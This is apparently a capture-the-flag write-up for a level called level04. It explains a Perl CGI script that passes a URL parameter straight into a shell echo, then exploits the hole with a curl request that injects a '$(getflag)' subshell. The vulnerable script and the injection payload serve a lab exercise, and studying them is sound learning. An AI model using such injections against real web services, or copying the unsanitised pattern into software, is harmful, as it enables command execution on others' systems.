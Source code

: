 <h1 align="center"> level04 </h1>

```shell
ls -la
```

We have a ```level04.pl``` file. Here the content:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

With comments:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0]; # get the arg give to the funtion and set y to it
  print `echo $y 2>&1`; # execute shell's echo with y value
}
x(param("x")); # call x with parameter x - http
```

We can try it with:
```shell
curl 'localhost:4747?x=toto'
```
It print toto


We can inject a subshell like this:
```shell
curl 'localhost:4747?x=$(getflag)'
```

It give us the getflag result, who allows us to pass to the next level, it work !
